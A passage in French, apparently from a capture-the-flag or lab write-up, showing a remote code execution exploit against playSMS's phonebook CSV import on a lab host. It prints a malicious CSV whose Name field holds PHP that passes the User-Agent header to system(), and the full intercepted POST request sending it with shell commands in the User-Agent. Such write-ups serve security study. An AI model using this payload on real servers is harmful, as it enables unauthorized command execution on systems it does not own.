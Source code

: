 ![Affichage de l'image Index-ImportCSV.png](images/Index-ImportCSV.png)

Le principe de l'exploit consiste à uploader un fichier CSV malveillant contenant du code PHP, qui sera exécuté par le serveur distant. Point important, le code PHP doit être situé dans le _User-Agent_ du navigateur de l'attaquant, pour que l'exploit puisse fonctionner.

```console
root@blinils:~# cat RCE-playsms.csv
"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
```

### Requête n°1 interceptée par Burp

```console
POST /SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=import HTTP/1.1
Host: 192.168.56.101
User-Agent: id; uname -a;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.101/SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=list
Content-Type: multipart/form-data; boundary=---------------------------188761488325323
Content-Length: 448
Cookie: PHPSESSID=ptslj41of81uh73res2dke4h85
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------188761488325323
Content-Disposition: form-data; name="X-CSRF-Token"

46f86826de7eedc26692febf19a27b5b
-----------------------------188761488325323
Content-Disposition: form-data; name="fnpb"; filename="RCE-playsms.csv"
Content-Type: application/vnd.ms-excel

"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
-----------------------------188761488325323--
```
